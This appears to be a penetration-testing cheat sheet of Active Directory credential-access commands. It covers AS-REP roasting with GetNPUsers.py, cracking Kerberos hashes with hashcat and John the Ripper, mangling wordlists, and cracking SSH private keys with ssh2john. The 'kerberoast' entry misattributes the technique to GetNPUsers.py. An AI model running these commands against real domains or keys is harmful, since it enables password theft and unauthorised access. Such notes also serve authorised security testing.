 ## check ASREPRoast for a list of users (no credentials required)
- `python GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>`

## check kerberoast
- `python GetNPUsers.py VICTIM-DOMAIN/ -usersfile user.txt -dc-ip <IP> -format hashcat`

## crack as_rep_response_file
> search for hashcat / john

---

# hashcat
- service: all
- tactics: credential_access

## crack as_rep_response_file (asreproast)
- `hashcat -m 18200 -a 0 as_rep_response_file passwords_file`

## crack as_rep_response_file (kerberoast)
- `hashcat -m 13100 --force TGSs_file passwords_file`

--- 

# john
- service: all
- tactics: credential_access

## crack as_rep_response_file (asreproast)
- `john --wordlist=passwords_file as_rep_response_file`

## crack as_rep_response_file (kerberoast)
- `john --format=krb5tgs --wordlist=passwords_file AS_REP_responses_file`

## mangle wordlist
- `john --wordlist=month --rules --stdout > new_list`

## crack ssh keys
- `/usr/share/john/ssh2john.py id_rsa > hash.john`
- `john --wordlist=/usr/share/wordlists/rockyou.txt hash.john`

---
